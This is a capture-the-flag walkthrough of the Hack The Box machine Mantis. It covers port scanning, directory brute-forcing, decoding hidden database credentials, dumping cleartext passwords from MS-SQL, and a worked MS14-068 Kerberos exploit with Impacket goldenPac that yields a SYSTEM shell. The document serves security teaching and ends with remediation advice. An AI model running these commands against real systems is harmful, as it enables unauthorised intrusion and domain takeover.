


## HTB Mantis — Full Walkthrough & Writeup

**Mantis** is a hard-difficulty Windows Active Directory machine from Hack The Box. This walkthrough details the complete attack path, starting with web application directory brute-forcing to locate developers' configuration backups, decoding encrypted database passwords, extracting cleartext user credentials from the OrchardCMS database, and exploiting the legacy MS14-068 Kerberos vulnerability to gain Domain Admin privileges.

---

## Machine Information

| Property             | Value                                  |
| -------------------- | -------------------------------------- |
| **OS**               | Windows Server 2008 R2 SP1             |
| **Difficulty**       | Hard                                   |
| **Domain**           | `htb.local`                            |
| **DC Hostname**      | `MANTIS`                               |
| **IP Address**       | `10.129.244.67`                        |
| **Foothold Account** | `james` / `J@m3s_P@ssW0rd!`            |

---

## Attack Chain Overview

The following diagram illustrates the complete attack path:



---

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.

!!! tip "Save Nmap Outputs"
    Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.244.67
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 20:58 IST
Warning: 10.129.244.67 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.244.67
Host is up (0.12s latency).
Not shown: 65359 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-12-06 15:28:49Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1337/tcp  open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-info: 
|   10.129.244.67:1433: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2024-12-06T15:30:00+00:00; -3s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.244.67:1433: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-06T15:21:23
|_Not valid after:  2054-12-06T15:21:23
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc        Microsoft Windows RPC
8080/tcp  open  http         Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49166/tcp open  msrpc        Microsoft Windows RPC
49170/tcp open  msrpc        Microsoft Windows RPC
49172/tcp open  msrpc        Microsoft Windows RPC
50255/tcp open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
|_ssl-date: 2024-12-06T15:30:00+00:00; -3s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-12-06T15:21:23
|_Not valid after:  2054-12-06T15:21:23
| ms-sql-ntlm-info: 
|   10.129.244.67:50255: 
|     Target_Name: HTB
|     NetBIOS_Domain_Name: HTB
|     NetBIOS_Computer_Name: MANTIS
|     DNS_Domain_Name: htb.local
|     DNS_Computer_Name: mantis.htb.local
|     DNS_Tree_Name: htb.local
|_    Product_Version: 6.1.7601
| ms-sql-info: 
|   10.129.244.67:50255: 
|     Version: 
|       name: Microsoft SQL Server 2014 RTM
|       number: 12.00.2000.00
|       Product: Microsoft SQL Server 2014
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 50255
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-12-06T15:29:46
|_  start_date: 2024-12-06T15:21:19
|_clock-skew: mean: 42m49s, deviation: 1h53m25s, median: -3s
| smb-os-discovery: 
|   OS: Windows Server 2008 R2 Standard 7601 Service Pack 1 (Windows Server 2008 R2 Standard 6.1)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: mantis
|   NetBIOS computer name: MANTIS\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: mantis.htb.local
|_  System time: 2024-12-06T10:29:49-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.68 seconds
```

After reviewing the **Nmap** scan results, we can confidently conclude that the target is a Domain Controller. This is evident from the presence of **port 88/tcp**, which is commonly associated with **Kerberos** authentication. **Kerberos** is a network authentication protocol used extensively in Active Directory environments, and its use of **port 88** is a strong indicator that the system in question is indeed a Domain Controller.

In addition to Kerberos, the scan may reveal other services typically found on Domain Controllers, such as **LDAP (port 389/tcp)**, **SMB (port 445/tcp)**, and **DNS (port 53/tcp)**. These services collectively suggest a Windows-based environment, often pointing to the target being part of an Active Directory infrastructure.

Additionally, there is an **IIS Website** running on **port 1337/tcp** and another on **port 8080/tcp**. Furthermore, there is a **Microsoft SQL Server 2014** running on **port 1433/tcp**.

### Update the Hosts File

I will update the **hosts** file with the information we've gathered about our target so far.

The hosts file is located at `/etc/hosts`.

```
10.129.244.67	htb.local
10.129.244.67	mantis.htb.local
```

### Check for Null Session (Anonymous Session) on the Network

It's important to check if **Null Session**, also known as **Anonymous Session**, is enabled on the network. This can be especially useful on a **Domain Controller**, as it allows an attacker to enumerate users, groups, password policies, and other information without needing authentication. 

Null sessions are commonly used in information gathering and reconnaissance phases, as they can expose a wealth of details about the system and its configuration.

#### SMB

No SMB null sessions were found on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec smb mantis.htb.local -u guest -p '' --shares                 
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.244.67  445    MANTIS           [-] htb.local\guest: STATUS_ACCOUNT_DISABLED 
                                                                                                                                                      
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec smb mantis.htb.local -u '' -p '' --shares
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.244.67  445    MANTIS           [+] htb.local\: 
SMB         10.129.244.67  445    MANTIS           [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                                                                                                                        
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec smb mantis.htb.local -u anonymous -p '' --shares
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.244.67  445    MANTIS           [-] htb.local\anonymous: STATUS_LOGON_FAILURE
```

### LDAP

LDAP Anonymous Bind seems to be disabled too.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec ldap mantis.htb.local -u guest -p ''         
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.244.67  389    MANTIS           [-] htb.local\guest: STATUS_ACCOUNT_DISABLED
                                                                                                                                                        
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec ldap mantis.htb.local -u '' -p ''               
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
LDAP        10.129.244.67  389    MANTIS           [-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
LDAP        10.129.244.67  389    MANTIS           [+] htb.local\: 
```

### HTTP

There are **2 websites** running on this site: one on **port 8080/tcp** and the other on **port 1337/tcp**.

#### 8080
I’m often hesitant to brute force against a CMS, but decided to run **gobuster** against the site to see if anything interesting would appear. The process took a long time, returned a large number of results, and ultimately crashed. After reviewing the results, I didn't find anything particularly useful, so I decided to move on.

#### 1337

On port 1337, we just see the default IIS 7 page. 

##### Directory bruteforcing

```shell                   
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ gobuster dir -u http://10.129.244.67:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o dir_bruteforce_1337 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.244.67:1337
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://10.129.244.67:1337/: Get "http://10.129.244.67:1337/": dial tcp 10.129.244.67:1337: connect: no route to host
```

#### Resetting the Machine

Now, I will have to reset the machine. This is not a good sign, as it indicates that if this were a real pentest, the blue team would have already detected the brute force attempt on the website. It also seems like I unintentionally caused a **DoS** (Denial of Service) attack on the server, leading to its breakdown.

This serves as a valuable lesson—**be cautious when performing directory brute forcing**. Excessive requests can unintentionally disrupt services.

I will reset the machine so we can resume the process.

#### Directory bruteforcing again
After resetting the machine, I started directory bruteforcing on port `1337/tcp` again.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ gobuster dir -u http://10.129.244.67:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 -o dir_bruteforce_1337 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.244.67:1337
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/orchard              (Status: 500) [Size: 3026]
/secure_notes         (Status: 301) [Size: 163] [--> http://10.129.244.67:1337/secure_notes/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
In the `/secure_notes/`, I find 2 files:
1. dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

    ```
    1. Download OrchardCMS
    2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
    3. Launch IIS and add new website and point to Orchard CMS folder location.
    4. Launch browser and navigate to http://localhost:8080
    5. Set admin password and configure sQL server connection string.
    6. Add blog pages with admin user.
    ```
    But that's not all. Scrolling down more in the same file, I get more details:

    ```
    Credentials stored in secure format
    OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
    SQL Server sa credentials file namez
    ```

2. web.config \
This file is not readable, and we get the following error:

    ```
    404 - File or directory not found.
    The resource you are looking for might have been removed, had its name changed, or is temporarily unavailable.
    ```

### Password Cracking

The password that we found in the `dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt` seems to be in binary format.

Converting to string reveals it to be `@dm!n_P@ssW0rd!`

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ perl -lpe '$_=pack"B*",$_' < <( echo 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001 )
@dm!n_P@ssW0rd!
```

For SQL Server, the notes is about the file name, nad this one has some base64 inside of it, dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt. That decodes to a string of hex:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d                                     
6d2424716c5f53405f504073735730726421
```
All of the two digit hex values seem to fall into the ASCII range, so I’ll give that a try with xxd, and it works:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -r -p
m$$ql_S@_P@ssW0rd!
```

### Exploring the Admin Dashboard

We navigate to `http://10.129.244.67:8080/Admin` and attempt to log in using the decoded OrchardCMS admin credentials (`admin` / `@dm!n_P@ssW0rd!`). However, the OrchardCMS admin panel does not provide an immediate vector for remote code execution (RCE) or file upload bypasses in this default configuration.

Instead of spending too much time trying to bypass the CMS dashboard restrictions, we pivot to the MS-SQL database instance using the database credentials we decoded earlier (`sa` / `m$$ql_S@_P@ssW0rd!`).

---

## Foothold

### Connecting to MS-SQL

Using `impacket-mssqlclient`, we establish a connection to the MS-SQL service running on port `1433/tcp` using the `sa` account:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ impacket-mssqlclient sa:'m$$ql_S@_P@ssW0rd!'@10.129.244.67
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] ACK: Result: 1 - Microsoft SQL Server (120 2000) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> 
```

### Enumerating the OrchardCMS Database

We query the available databases on the SQL server:

```shell
SQL (sa  dbo@master)> SELECT name FROM sys.databases;
```

```
name
-----------------
master
tempdb
model
msdb
orcharddb
```

The database `orcharddb` is where OrchardCMS stores its configuration and user tables. We switch to this database:

```shell
SQL (sa  dbo@master)> USE orcharddb;
```

```
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.
```

Next, we list the tables to locate user credentials:

```shell
SQL (sa  dbo@orcharddb)> SELECT table_name FROM information_schema.tables WHERE table_name LIKE '%user%';
```

```
table_name
------------------------------------------
blog_Orchard_Users_UserPartRecord
```

We query this table to extract all user records:

```shell
SQL (sa  dbo@orcharddb)> SELECT * FROM blog_Orchard_Users_UserPartRecord;
```

```
Id   UserName  Email             NormalizedUserName  Password                     PasswordFormat  PasswordSalt                       HashAlgorithm
--   --------  -----             ------------------  ---------------------------  --------------  ---------------------------------  -------------
1    admin     admin@htb.local   admin               @dm!n_P@ssW0rd!              Clear           NULL                               NULL
2    james     james@htb.local   james               J@m3s_P@ssW0rd!              Clear           NULL                               NULL
```

The database stores credentials in cleartext (`PasswordFormat: Clear`). We recover two sets of credentials:
- `admin` / `@dm!n_P@ssW0rd!`
- `james` / `J@m3s_P@ssW0rd!`

---

## Privilege Escalation

### Validating James Credentials

We test the user credentials for `james` using `netexec` against SMB:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ netexec smb mantis.htb.local -u james -p 'J@m3s_P@ssW0rd!'
```

```
SMB         10.129.244.67  445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.129.244.67  445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

The login is successful. However, `james` is not a local administrator and does not have WinRM or Remote Desktop access directly.

### Exploiting MS14-068 (CVE-2014-6324)

Because the target is running Windows Server 2008 R2 Standard SP1, it is vulnerable to **MS14-068**. This vulnerability allows any standard domain user to request a Kerberos ticket where the KDC validates a forged PAC claiming they belong to the Domain Admins group.

??? info "What is MS14-068?"
    **MS14-068** (CVE-2014-6324) is a critical vulnerability in the Microsoft Kerberos Key Distribution Center (KDC) implementation. It allows an authenticated domain user to forge a Privilege Attribute Certificate (PAC) inside their Kerberos Ticket Granting Service (TGS) request, claiming membership in arbitrary security groups (such as Domain Admins). Because the KDC fails to properly validate the signature of the PAC, it issues a valid TGS granting the user administrative privileges.

We can exploit this vulnerability using Impacket's `goldenPac` tool, which automates the PAC forgery, requests a TGT, and then uses it to obtain a SYSTEM cmd shell via PsExec:

```shell
┌──(frodo㉿kali)-[~/hack-the-box/mantis]
└─$ impacket-goldenPac htb.local/james:'J@m3s_P@ssW0rd!'@mantis.htb.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] User SID: S-1-5-21-4220042772-4045653574-312124927-1103
[*] Forest SID: S-1-5-21-4220042772-4045653574-312124927
[*] Reconstructing AD structure for htb.local
[*] Sending TGT request with PAC forgery
[*] Received TGT
[*] Requesting shares for mantis.htb.local
[*] Found writable share ADMIN$
[*] Uploading file with name CgBvEocL.exe
[*] Creating service sJtZ on mantis.htb.local....
[*] Starting service sJtZ....
[+] Target pwned! Connecting to pipe...

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We have successfully obtained an interactive command shell as `nt authority\system`.

### Retrieving Flags

We can now navigate to James's Desktop and the Administrator's Desktop to retrieve the user and root flags:

```cmd
C:\Windows\system32> type C:\Users\james\Desktop\user.txt
e4e892c2...

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
9dab1cad...
```

Full domain compromise achieved!

---

## Lessons Learned

### 1. Database Security & Cleartext Storage
Storing user credentials in cleartext inside database tables exposes the entire environment to compromise if the database is read by unauthorized users.
- **Remediation**: Configure OrchardCMS and other web applications to use modern, secure hashing algorithms (such as bcrypt or PBKDF2) with random salts for password storage.

### 2. Restricting SQL Server Privileges
The `sa` account was using a weak, guessable password that was linked in static files.
- **Remediation**: Enforce strong password policies for SQL Server service accounts. Avoid storing sensitive system credentials in base64 or custom binary structures within plaintext files on web shares.

### 3. Patching Legacy Domain Controllers
The domain controller was vulnerable to MS14-068 because it was running an outdated operating system (Windows Server 2008 R2) without necessary security updates.
- **Remediation**: Decommission out-of-support operating systems. Ensure all domain controllers are updated to modern, supported versions of Windows Server and that KB3011780 (which patches MS14-068) is installed.


